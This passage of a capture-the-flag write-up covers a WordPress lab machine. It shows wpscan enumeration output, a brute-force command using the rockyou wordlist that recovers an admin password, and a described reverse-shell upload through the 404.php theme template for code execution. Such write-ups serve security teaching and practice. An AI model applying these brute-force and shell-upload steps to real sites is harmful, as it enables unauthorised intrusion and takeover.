 ```shell
 |  - http://internal.thm/blog/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 3.6
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
```

I found that the current version is `5.4.2`, so I decided to find a CVE for this version.

I didn't find anything interesting, so I decided to perform a user enumeration for a later brute force attack:

```shell
wpscan --url "http://internal.thm/blog/" -U users.txt -P /usr/share/wordlists/rockyou.txt

[REDACTED]
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                         
Trying admin / ionela Time: 00:02:12 <                                     > (3885 / 14348277)  0.02%  ETA: ??:??:??
```

> So I logged in as admin :D

![](Pasted%20image%2020240531153728.png)

Now it's time to get RCE, so again in [WordPress 🍔](/notes/wordpress.md) I've got some RCEs detailed:

> Basically I uploaded a Reverse shell to the `404.php` template and then I looked up for a non-existing post in the blog

I got RCE:

![](Pasted%20image%2020240531155032.png)
